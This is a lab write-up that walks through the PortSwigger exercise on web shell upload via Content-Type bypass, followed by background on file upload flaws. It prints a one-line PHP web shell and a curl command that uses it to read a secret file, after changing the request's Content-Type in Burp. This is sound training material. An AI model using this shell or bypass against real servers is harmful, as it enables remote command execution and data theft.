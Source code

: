# 1f2 - Web shell upload via Content-Type restriction bypass \[Portswigger Lab]

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### Solution:

So upon logging in my account, I can see the avatar upload field.

<figure><img src="../../../.gitbook/assets/Pasted image 20240719144326.png" alt=""><figcaption><p>upload field for avatar</p></figcaption></figure>

Testing this functionality by uploading an empty `test.txt` file gives me an error

`Sorry, file type text/plain is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.`

The next thing I tried was to upload the same file but modify the HTTP request using burpsuite and change `Content-Type: Text/Plain` to `Content-Type: image/jpeg`. This bypassed a defense mechanism and as a result it let me upload a text file

<figure><img src="../../../.gitbook/assets/Pasted image 20240719145007.png" alt=""><figcaption><p>demonstration of tricking web application into uploading different type of file</p></figcaption></figure>

Now it's time to upload a web shell `mal.php` with the following contents:

`<?php echo system($_GET['command']); ?>`

<figure><img src="../../../.gitbook/assets/Pasted image 20240719145330.png" alt=""><figcaption><p>uploaded malware of type php</p></figcaption></figure>

Now, since I know that this `mal.php` is uploaded in `/files/avatars/mal.php`, I can call it using CURL.

And we got the secret

```
curl -X GET "https://0a2200b703596e51800635e70004004c.web-security-academy.net/files/avatars/mal.php?command=cat%20../../../../home/carlos/secret"

7nJBS****************************7nJBS****************************
```

remember that calls form curl like this repeats the response twice, so I had to remove the double of this output.

The secret contents: `7nJB****************************`

***

**Impact of FUVs generally depend on two key factors**:

* Which aspect of the file the website fails to validate properly, whether its the size, type, contents...
* what restrictions are imposed once file is uploaded

In the worst case scenario, the file is not validated at all and the server configuration allows certain types to run as code - potentially giving an attacker web shell and full access to a webserver.

In case filename isn't validated properly, an attacker might just replace original file with a malicious one.

Failing to validate file size might also enable an attacker to perform a DoS.

_**How Web servers handle static file requests?**_

Generally, static files on a website can be mapped 1:1 with a filesystem hierarchy.

Nowadays modern applications are dynamic and hence complex. Path of a request may not necessarily represent a filesystem entirely. Nowadays, web servers still deal with static requests for some static files like stylesheets, images etc.

The process for handling such files is historically largely the same. - The server parses the path in the request to identify the file extension. Then uses this information to determine the filetype by comparing it to preconfigured mapping between extensions and MIME types.

* if the file is non-executable like HTML file, it may just send the file in the HTTP response
* if the file is executable like PHP or PYTHON and the server is configured to execute these files, it will assign variables based on the headers and parameters in the HTTP request before executing it. The result may be passed on to HTTP response after.
* if the file is executable, but the server is not configured to run them, it will generally respond with an error or in some cases, just send back the plain text representation of the code to the client. such misconfigurations may lead to code and sensitive data leakage. The `Content-Type` response header may provide clues as to what kind of file the server thinks it has served.

As a precaution, servers generally only run scripts whose filetypes have been explicitly defined to execute. Otherwise they may return an error message or plaintext of source code. In such cases, it might only be possible to leak the source but won't be able to deploy a webshell.

This kind of configuration will have a strict policy for directories where user can upload files than other locations on the filesystem that are assumed to be out of reach from users. If you can find a directory where user-uploaded files are not supposed to be, the code might execute.

Web servers often use the `filename` field in `multipart/form-data` requests to determine the name and location where the file should be saved.
